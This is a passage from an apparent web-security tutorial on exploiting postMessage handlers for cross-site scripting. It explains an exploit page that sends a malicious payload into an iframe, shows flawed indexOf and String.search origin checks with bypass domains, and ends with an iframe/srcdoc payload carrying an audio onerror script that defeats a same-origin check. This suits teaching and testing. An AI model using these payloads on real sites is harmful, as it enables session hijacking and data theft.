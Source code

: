 * **Explanation:**
  * **Line 7:** The `payload` contains a malicious script designed to trigger an XSS attack.
  * **Line 8:** The `contentWindow` property allows access to the `iframe`'s window object, enabling manipulation of its DOM.
  * **Line 9:** The `postMessage()` method sends the malicious payload to the `iframe`, exploiting the lack of origin validation.

1. **Deploy the Exploit:**
   * Load the exploit page in a browser and click on the "Click to Exploit" button.
2. **Result:**
   * The XSS payload is executed in the context of the vulnerable application, demonstrating a successful attack.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Bypassing Origin Checks:**

*   **Using `indexOf`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if (e.origin.indexOf("https://legitimate.com") === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    This check can be bypassed by registering a subdomain like `https://legitimate.com.attacker.site`.
*   **Using `String.search`:**

    ```javascript
    window.addEventListener('message', function (e) {
        if ("https://legitimatesite.com".search(e.origin) === -1) {
            // Deny
        } else {
            // Allow
        }
    });
    ```

    Bypass this by using a domain like `legit.matesite.com`, where the `.` will match any character due to the regex conversion, allowing it to match `legitimatesite.com`.
*   **Bypassing `e.origin === window.origin`:**

    ```javascript
    let f = document.createElement('iframe');
    f.sandbox = 'allow-scripts allow-popups allow-top-navigation';
    f.srcdoc = `
    let w = open('https://so-xss.terjanq.me/iframe.php');
    setTimeout(_ => {
        w.postMessage({type: "render", body: "<audio/src/onerror=\\"${payload}\\">"}, '*');
    }, 1000);
    `;
    ```
